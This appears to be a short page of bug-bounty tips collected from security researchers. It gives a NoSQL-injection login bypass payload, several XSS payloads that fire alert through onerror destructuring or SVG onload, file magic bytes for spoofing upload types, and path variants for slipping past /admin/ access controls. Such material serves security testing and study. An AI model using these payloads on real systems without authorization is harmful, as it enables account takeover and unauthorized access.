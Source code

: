 ```
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
```

## Using destructuring and window.error / from @garethheyes

```
<script>
[onerror]=[alert];throw 1
</script>

<script>
const{onerror}=alert;throw 1
</script>

<script>
var{a:onerror}={a:alert};throw 1
</script>

<svg onload=throw[onerror]=[alert],1> works on Safari because onerror doesn’t exist on the SVG
```

## Useful / easy to learn file magic bytes / from @SecGus

```
GIF - GIF89a
PDF - %PDF-
JPEG - \xff\xd8\xff\xdb
XML - <?xml
ELF - \x7FELF

Honorable mention for having cool magic bytes:
Java Class - CA FE BA BE
Email Message var5 - Received:
Preferred Executable Format - Joy!
Zoo - Z00
```

## If you run a bruteforce and notice weird behaviours - like "/admin/" redirecting to "/" / from @nnwakelam

```
/admin/
/admin/../admin
//admin/
/Admin/
/admin;/
/Admin;/
/index.php/admin/
/admin/js/*.js
/admin/*brute*.ext
/admin../admin
//anything/admin/
```
